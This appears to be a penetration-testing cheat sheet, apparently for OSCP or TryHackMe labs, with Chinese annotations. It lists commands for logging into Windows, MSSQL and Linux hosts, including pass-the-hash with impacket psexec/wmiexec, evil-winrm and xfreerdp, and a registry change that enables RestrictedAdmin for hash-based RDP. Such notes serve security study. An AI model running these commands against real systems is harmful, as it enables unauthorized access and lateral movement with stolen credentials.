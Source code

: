 # windows

## pass the hash
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

## psexec
```
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash

impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:0109d7e72fcfe404186c4079ba6cf79c administrator@172.16.1.5
impacket-psexec 'cyber_adm:Passw0rd!'@172.16.1.24 

impacket-wmiexec -hashes :7facdc498ed1680c4fd1448319a8c04f administrator@172.16.4.31
```

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py  -hashes "af636dea707fa9cf431562c90e8a4044:af636dea707fa9cf431562c90e8a4044" Administrator@10.11.1.222
```


只有tgt，没有密码
```
psexec.py -k -no-pass domain/username -dc-ip 10.11.1.222 -target-ip 10.11.1.220
```


## evil-winrm

```
evil-winrm -i 10.11.1.221 -u 'john' -p 'easyas123'

evil-winrm -i 192.168.140.10 -u 'offsec' -H '2892d26cdf84d7a70e2eb3b9f05c425e'                              # pass the hash
```


## rdp
```
xfreerdp /u:offsec /p:'lab' /v:192.168.140.10 +clipboard 
xfreerdp /u:Administrator /pth:'' /v:10.11.1.221 +clipboard 

xfreerdp /v:thmwrk1.za.tryhackme.loc /u:t2_henry.harvey /p:'max.123456'

xfreerdp /u:i.wood /p:'7@@$if*7l0E!9zFs' /w:600 /h:500 /v:10.10.120.102

xfreerdp /u:Offsec /p:'lab' /d:prod.corp1 /w:1600 /h:1000 /v:192.168.236.78  +clipboard 


xfreerdp /v:192.168.236.78 /u:Offsec /pth:2892d26cdf84d7a70e2eb3b9f05c425e +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /timeout:25000

rdesktop -d <domain> -u <username> -p <password> <IP>

rdesktop -u offsec -p lab 192.168.120.11 -g 100% -x 0x80

```


网络账户登录，不需要明文密码
>网络登录不需要明文凭证，也不会将其存储在内存中，本质上是禁用了单点登录。这种类型的登录方式通常由服务账户使用。 （A network login does not require clear text credentials and will not store them in memory, essentially disabling single sign-on. This type of login is commonly used by service accounts.）

开启restrictedadmin模式
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

关闭restrictedadmin模式
```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```
# mssql

## mssqlclient.py
```
# Using Impacket mssqlclient.py
mssqlclient.py [-db volume] <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>


## Recommended -windows-auth when you are going to use a domain. Use as domain the netBIOS name of the machine
mssqlclient.py [-db volume] -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
```

哈希
```
mssqlclient.py <DOMAIN>/<USERNAME>@<IP> -hashes ":2892d26cdf84d7a70e2eb3b9f05c425e"
```

## sqsh
```
# Using sqsh
sqsh -S <IP> -U <Username> -P <Password> -D <Database>

## In case Windows Auth using "." as domain name for local user
sqsh -S <IP> -U .\\<Username> -P <Password> -D <Database> 


## In sqsh you need to use GO after writting the query to send it
1> select 1;
2> go
```


# linux

普通登录
```
ssh root@10.10.10.233
```

证书登录
```
ssh root@10.10.10.233 -i id_rsa
```

带密码
```
sshpass -p '这里填ssh密码' ssh aaronkilik@10.42.0.1 '这里填要执行的linux命令' 

sshpass -p 'my_pass_here' ssh aaronkilik@10.42.0.1 'df -h' 
```



